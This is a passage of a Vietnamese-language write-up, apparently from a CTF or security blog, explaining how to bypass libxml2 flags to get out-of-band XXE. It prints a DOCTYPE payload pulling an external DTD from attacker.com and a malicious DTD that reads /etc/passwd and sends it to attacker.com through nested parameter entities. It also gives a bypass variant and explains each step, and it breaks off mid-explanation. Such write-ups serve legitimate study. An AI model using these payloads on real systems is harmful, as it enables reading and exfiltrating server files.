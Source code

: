 Nếu DOCTYPE có SYSTEM URI (ví dụ: `http://evil.com/malicious.dtd`), nó sẽ lưu lại đường dẫn này vào biến `ctxt->extSubURI`.

Lúc này URI đã được lưu vào context `ctxt` → Dù chưa cho load ngay, URI vẫn nằm đó chờ sẵn 
→ nó sẽ luôn được gọi nếu `LIBXML_DTDLOAD` bật.

Khi đó chỉ cần chỉnh payload thành :
```xml
 <!DOCTYPE x SYSTEM "http://attacker.com/malicious.dtd" []><x></x>
```

### Làm sao để đẩy data ra ngoài ???
Tính đến hiện tại, ta đã bypass thành công 3 tầng bảo vệ và tải được external DTD từ bất kỳ nguồn nào.
Giờ là lúc giải quyết bài toán exfil dữ liệu (đẩy dữ liệu ra ngoài).

#### 🧾 Cách thông thường: 
Thông thường khi muốn đẩy data ra ngoài,attacker thường host 1 trang web public có chứa một external DTD file có URL `http://attacker.com/malicious.dtd` có nội dung như sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Tệp tin DTD này thực hiện các bước hoạt động như sau:

- Định nghĩa một parameter entity với tên `file` có giá trị là nội dung tệp `/etc/passwd`
- Định nghĩa một entity với tên `eval`, trong entity này chứa một định nghĩa parameter entity khác với tên `exfiltrate` sẽ gửi request tới website của attacker `http://attacker.com/`, truyền tham số x chứa nội dung tệp `/etc/passwd` bằng cách gọi tham chiếu entity `%file;`
- Gọi tham chiếu entity `%eval` chứa định nghĩa entity `exfiltrate`
- Gọi tham chiếu entity `%exfiltrate;`

Cuối cùng, attacker định nghĩa một parameter entity, gửi payload tới server chứa lỗ hổng XXE :
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://attacker.com/malicious.dtd"> %xxe;]>
```

#### 🔥 Vấn đề:
Tuy nhiên nếu áp dụng cách này ở đây thì payload trên sẽ không hoạt động do các parameter entity dạng `SYSTEM` (external) chỉ được load khi có:
- `LIBXML_NOENT` (thay thế entity)
- hoặc `LIBXML_DTDVALID` (validation XML)

Nếu không có thì Parser không load nội dung của `%file;` → `%eval;` tạo ra entity bị rỗng → `%exfiltrate;` không hoạt động 😑

#### ✅ Cách giải quyết (bypass):

1. 💡 Dùng entity nội bộ (internal):
```xml
<!ENTITY % file "somedata">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
→ Vì `%file;` có nội dung cụ thể ("`somedata`") 
→ `%eval;` sinh ra entity hợp lệ
